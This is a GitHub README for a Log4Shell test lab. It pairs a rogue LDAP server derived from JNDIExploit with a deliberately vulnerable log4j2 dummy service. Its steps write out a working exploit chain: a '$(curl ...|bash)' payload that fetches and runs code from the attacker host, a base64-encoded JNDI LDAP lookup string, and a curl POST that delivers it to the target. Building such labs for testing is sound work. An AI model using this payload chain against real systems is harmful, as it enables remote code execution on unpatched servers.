 ## RogueLDAP

------------

This is a lightweight ```RogueLDAP``` server which is a modified version of the  [JNDIExploit-1](https://github.com/gysf666/JNDIExploit-1). Before running the Rogue LDAP Server, we should build and run the vulnerable ```loggin-log4j2``` application

### Build and run with Maven

In order to build the ```RogueLDAP``` server we will run the following commands 

```
cd RogueLDAP
mvn clean package
cd target
java -jar RogueLDAP-1.4-SNAPSHOT.jar
```

## logging-log4j2

------------

The ```logging-log4j2``` is a vulnerable dummy web service which only logs a user supplied string value. This application created for testing purposes in order to test the Log4Shell vulnerability using the ```RogueLDAP``` server previously described.  

### Build and run with Docker

From cli run the following command to build and run the ```logging-log4j2``` application 

```
cd logging-log4j2
mvn clean install
docker build -f Dockerfile -t logging-log4j2-vuln .
docker run -p 8080:8080 logging-log4j2-vuln 
```

## Setting up the Environment

The setup should be as follows 

1. run the ```RogueLDAP``` server at the attacking machine
2. run the vulnerable ```logging-log4j2``` application at the target machine
3. create a folder called shells at a preffered location at the attacking machine

```
mkdir shells 
cd shells 
```

Inside the shells folder create an ```index.html``` file 

```
touch index.html 
```

Inside the ```index.html``` file put the following payload and change the IP address to the one that suits to your environment

```
$(curl 192.168.1.6:8085|bash) 
``` 

4. convert the payload above in base64 format as seen below 

```
JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=
```

5. In order to perform a JNDI LDAP query the following payload will be used (change the IP address with the one that suits to your environment) 

```
${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}
``` 


6. Now that the ```logging-log4j2``` application runs, use the ```curl``` command line tool in order send the jndi payload as shown below 
(change the IP address with the one that suits to your environment) 

```
curl -s -X POST http://192.168.1.6:8080/lol -H "Content-type:application/json" -d "{\"vuln\":\"\${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}\"}"
```
